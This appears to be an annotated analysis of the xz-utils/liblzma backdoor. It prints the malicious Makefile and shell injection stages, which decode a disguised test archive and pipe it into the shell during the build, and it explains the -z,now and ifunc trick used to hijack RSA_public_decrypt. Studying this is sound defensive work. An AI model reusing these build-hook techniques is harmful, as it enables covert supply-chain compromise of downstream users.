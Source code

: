 ```
am__test = bad-3-corrupt_lzma2.xz
am__strip_prefix = tr "\\t \\-_" " \\t_\\-"
am__dist_setup = $(am_strip_prefix) | xz -d 2>/dev/null | $(SHELL)
am__test_dir = $(top_srcdir)/tests/files/$(am__test)
```

---

<br>

```sh
        h="-Wl,--sort-section=name,-X"
        if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
            h=$h",-z,now"
        fi
        j="liblzma_la_LDFLAGS += $h"
        sed -i "/$L/i$j" src/liblzma/Makefile || true
```
- Add `liblzma_la_LDFLAGS += -Wl,--sort-section=name,-X` to `src/liblzma/Makefile`.
- If `liblzma_la_LDFLAGS` not set `-z`, `now` or `-Wl`, `now`, add `-z`, `now`.
- `-Wl, now` forces `LD_BIND_NOW` behavior
  - The dynamic loader resolves all symbols at program startup time <-> Lazy bind
  - One reason this is normally done is for security
  - Global Offset Table(GOT) and Procedure Linkage Tables(PLT) can be marked read-only early in process startup, so that buffer overflows or write-after-free bugs cannot target those tables
  - It also has the effect of running GNU indirect function (ifunc) resolvers at startup during that resolution process, and the backdoor arranges to be called from one of those.
  - This early invocation of the backdoor setup lets it run while the tables are still writable, allowing the backdoor to replace the entry for `RSA_public_decrypt` with its own version.
- `L="^all: all-recursive$"`
- `j="liblzma_la_LDFLAGS += $h"`
- `h="-Wl,--sort-section=name,-X"`
- `if` condition makes `h="-Wl,--sort-section=name,-X,-z,now"`

```sh
        sed -i "s/$O/$C/g" libtool || true
```
- libtool `pic_flag=" -fPIC -DPIC"` changes
- To libtool `pic_flag=" -fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"`
- Disable linker optimizations that could get in the way of subterfuge.
- `O="^pic_flag=\" -fPIC -DPIC\"$"`
- `P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"`
- `C="pic_flag=\" $P\""`

```sh
        k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
        sed -i "s/$u/$k/" src/liblzma/Makefile || true
        l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\
            export top_srcdir='\$(top_srcdir)'; \\\\\n\
            export CC='\$(CC)'; \\\\\n\
            export DEFS='\$(DEFS)'; \\\\\n\
            export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\
            export INCLUDES='\$(INCLUDES)'; \\\\\n\
            export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\
            export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\
            export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\
            export CFLAGS='\$(CFLAGS)'; \\\\\n\
            export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\
            export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\
            export libdir='\$(libdir)'; \\\\\n\
            export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\
            export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\
        sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
        sed -i "/$m/i$l" src/liblzma/Makefile || true
        eval $zrKcHD
    fi
```